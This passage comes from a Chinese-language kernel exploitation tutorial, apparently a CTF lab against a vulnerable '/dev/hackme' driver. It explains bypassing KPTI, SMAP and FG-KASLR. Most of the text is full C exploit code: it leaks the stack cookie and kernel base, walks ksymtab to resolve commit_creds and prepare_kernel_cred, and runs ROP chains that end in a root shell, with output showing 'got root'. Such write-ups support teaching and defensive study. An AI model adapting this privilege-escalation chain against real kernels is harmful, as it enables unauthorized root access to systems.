   0xffffffff81200fc0 <_stext+2101184>:	test   BYTE PTR [rsp+0x20],0x4
   0xffffffff81200fc5 <_stext+2101189>:	jne    0xffffffff81200fc9 <_stext+2101193>
   0xffffffff81200fc7 <_stext+2101191>:	iretq  						#<=====
```

关于`mov    rsp,QWORD PTR gs:0x6004`这个栈，源码解释为：

> ```assembly
> 	/*
> 	 * The stack is now user RDI, orig_ax, RIP, CS, EFLAGS, RSP, SS.
> 	 * Save old stack pointer and switch to trampoline stack.
> 	 */
> 	movq	%rsp, %rdi
> 	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
> 
> 	/* Copy the IRET frame to the trampoline stack. */
> 	pushq	6*8(%rdi)	/* SS */
> 	pushq	5*8(%rdi)	/* RSP */
> 	pushq	4*8(%rdi)	/* EFLAGS */
> 	pushq	3*8(%rdi)	/* CS */
> 	pushq	2*8(%rdi)	/* RIP */
> 
> 	/* Push user RDI on the trampoline stack. */
> 	pushq	(%rdi)
> 
> 	/*
> 	 * We are on the trampoline stack.  All regs except RDI are live.
> 	 * We can do future final exit work right here.
> 	 */
> 
> 	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi
> 
> 	/* Restore RDI. */
> 	popq	%rdi
> 	SWAPGS
> 	INTERRUPT_RETURN
> ```

就是内核准备的一个中转栈，那从`movq	%rsp, %rdi`开始使用

只需要在overflow的时候多压入两个padding数据即可：

```c
unsigned long PopRdiRet = 0xffffffff815f88ec;               //pop rdi ; ret
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;

unsigned long MovRdiRaxRet = 0xffffffff8166fea3;            //mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long CmpRdxRet = 0xffffffff81964cc4;               //cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long PopRdxRet = 0xffffffff815f3327;               //pop rdx ; ret


unsigned long commit_creds = 0xffffffff814c6410;
unsigned long SwapgsRet = 0xffffffff8120109c;               //swapgs ; pop rbp ; ret
unsigned long Iret = 0xffffffff8100c0d9;

unsigned long KptiBack = 0xffffffff81200f10;                //swapgs_restore_regs_and_return_to_usermode
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = PopRdiRet; // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = KptiBack + 22;

    payload[off++] = 0;
    payload[off++] = 0;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

Result：

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: d0220ee1c9393e00
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```


## level_3 Append Smap

smap(Supervisor Mode Access Prevention)，内核态无法使用(读或写)用户区的数据，也就是smep的加强版。通过CR4寄存器的第21位设置。

当该防护开启时，对于上文(SMEP)提到的第一种情况，也就是溢出的数据足够把所有rop链放入内核栈时可以直接使用其对应的Exp，因为没有涉及对用户区数据。

但是溢出量有限的时候就比较麻烦了


## level_4 Append Kaslr

了解决用户态的ASLR经典的做法是泄露段中某个地址，然后根据偏移计算基地址。因为只是随机化了加载的基地址而偏移量都是不变的，这一特点对于普通的KASLR来说也是这样的。**其内核加载地址随机化但所有的函数都会有一个固定的偏移量**。

但是很多情况是`FG-KASLR`，函数粒度化随机加载。这将会在内核加载时以每个函数为单位重新排布他们的地址。


这个FG-KASLR并不是完美的，还是有一部分区域不会进行地址随机化，以下是不会收该机制影响的区域并且包含对我们有用的代码：

+ 从标号`_text`到__x86_retpoline_r15即`_text+0x400dc6`的代码。这里没有包括`commit_creds`和`prepare_kernel_cred`

+ `swapgs_restore_regs_and_return_to_usermode()`函数

+ 内核符号表`ksymtab`从`_text+0xf85198`开始，可以用来计算其他函数的地址

  + ```c
    struct kernel_symbol {
    	  int value_offset;
    	  int name_offset;
    	  int namespace_offset;
    };
    ```

  + 通过某个符号的`ksymtab`entry地址加上其记录的`value_offset`就是该符号的真正地址


#### get gadgets

```c
unsigned long cookie;
unsigned long imagebase;
unsigned long kpti_trampoline;
unsigned long ksymtab_prepare_kernel_cred;
unsigned long ksymtab_commit_creds;
unsigned long Read4ByteRet;                 //mov eax, dword ptr [rax + 0x10] ; pop rbp ; ret 
unsigned long PopRaxRet;   
unsigned long PopRdiRet;            
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    imagebase = leak[38] - 0xa157;
    
    kpti_trampoline = imagebase + 0x200f10 + 22;
    ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
    ksymtab_commit_creds = imagebase + 0xf87d90;
    Read4ByteRet = imagebase + 0x4aae;
    PopRaxRet = imagebase + 0x4d11;
    PopRdiRet = imagebase + 0x6370;
    
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
    printf("[*] imagebase: %lx\n", imagebase);
}
```

+ imagebase：由调试时查看栈中数据发现有一个地址处于`_text`~`_text+0x400dc6`，因此可以泄露计算出来
+ Read4ByteRet：从`_text`~`_text+0x400dc6`搜索`mov`类型的指令获得
  + PopRaxRet：配合
+ PopRdiRet：函数传参
+ kpti_trampoline， ksymtab_prepare_kernel_cred， ksymtab_commit_creds先查出偏移再+imagebase即可。提前准备


#### leak funcs addr

由于`_text`~`_text+0x400dc6`中没有`mov rdi, rax;ret`这样的指令，所以需要多次返回进入内核态泄露并最后执行**提权函数**

```c
unsigned long tmp_store;
unsigned long commit_creds;
void get_commit_creds(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax"
    );

    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("[*] =====> commit_creds: %lx\n", commit_creds);
    stage_2();
}

/*leak commit_creds*/
void stage_1(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;       //rbx
    payload[off++] = 0x0;       //r12
    payload[off++] = 0x0;       //rbp
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_commit_creds - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0;    //pop rbp
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0;             
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}
```

使用全局变量**commit_creds**存储其地址，同样的对**prepare_kernel_cred**采取同样的操作在**stage_2**


#### get_cred_strut

同样的原因，需要获取**prepare_kernel_cred(0)**的cred_struct指针并在用户态存储其值

```c
unsigned long cred_struct;
void get_cred_sturct(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );

    cred_struct = tmp_store;
    printf("[*] =====> Got cred_struct: %lx\n", cred_struct);
    stage_4();
}

/*call prepare_kernel_cred(0)*/
void stage_3(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;         //ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;   //prepare_kernel_cred(0)
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_cred_sturct;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call prepare_kernel_cred(0)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}
```

然后在stage_4调用**commit_creds**返回用户态**get_shell**完成提权


#### Final_Exp

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

void get_commit_creds();
void get_prepare_kernel_cred();
void get_cred_sturct();
void stage_1();
void stage_2();
void stage_3();
void stage_4();

int global_fd;

void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}

void close_dev(){
    close(global_fd);
}

unsigned long user_cs, user_ss, user_rflags, user_sp;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long cookie;
unsigned long imagebase;
unsigned long kpti_trampoline;
unsigned long ksymtab_prepare_kernel_cred;
unsigned long ksymtab_commit_creds;
unsigned long Read4ByteRet;                 //mov eax, dword ptr [rax + 0x10] ; pop rbp ; ret 
unsigned long PopRaxRet;   
unsigned long PopRdiRet;            
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    imagebase = leak[38] - 0xa157;
    
    kpti_trampoline = imagebase + 0x200f10 + 22;
    ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
    ksymtab_commit_creds = imagebase + 0xf87d90;
    Read4ByteRet = imagebase + 0x4aae;
    PopRaxRet = imagebase + 0x4d11;
    PopRdiRet = imagebase + 0x6370;
    
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
    printf("[*] imagebase: %lx\n", imagebase);
}

unsigned long tmp_store;
unsigned long commit_creds;
void get_commit_creds(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax"
    );

    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("[*] =====> commit_creds: %lx\n", commit_creds);
    stage_2();
}

/*leak commit_creds*/
void stage_1(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;       //rbx
    payload[off++] = 0x0;       //r12
    payload[off++] = 0x0;       //rbp
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_commit_creds - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0;    //pop rbp
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0;             
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

unsigned long prepare_kernel_cred;
void get_prepare_kernel_cred(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );

    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("[*] =====> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

/*leak prepare_kernel_cred*/
void stage_2(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0xdeadbeef;        //pop rbp

    payload[off++] = kpti_trampoline;
    payload[off++] = 0;
    payload[off++] = 0;
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak prepare_kernel_cred()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

unsigned long cred_struct;
void get_cred_sturct(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );

    cred_struct = tmp_store;
    printf("[*] =====> Got cred_struct: %lx\n", cred_struct);
    stage_4();
}


/*call prepare_kernel_cred(0)*/
void stage_3(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;         //ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;   //prepare_kernel_cred(0)
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_cred_sturct;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call prepare_kernel_cred(0)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

/*call commit_creds(prepare_kernel_cred(0))*/
void stage_4(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;
    payload[off++] = cred_struct;
    payload[off++] = commit_creds;

    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

int main() {

    save_state();

    open_dev();

    leak();

    stage_1();
    
    puts("[!] Should never be reached");

    return 0;
}
```


Result：

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 320 bytes
[*] Cookie: 8b26b4c19a2f5100
[*] imagebase: ffffffff8c400000
[*] Prepared payload to leak commit_creds()
[*] =====> commit_creds: ffffffff8c942840
[*] Prepared payload to leak prepare_kernel_cred()
[*] =====> prepare_kernel_cred: ffffffff8ceb66a0
[*] Prepared payload to call prepare_kernel_cred(0)
[*] =====> Got cred_struct: ffff9c3e476e1f00
[*] Prepared payload to call commit_creds()
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```


关键点：

+ 了解FG-Kaslr保护不受影响的代码区
+ 泄露**_text**基地址
+ 计算提权函数和需要的gadgets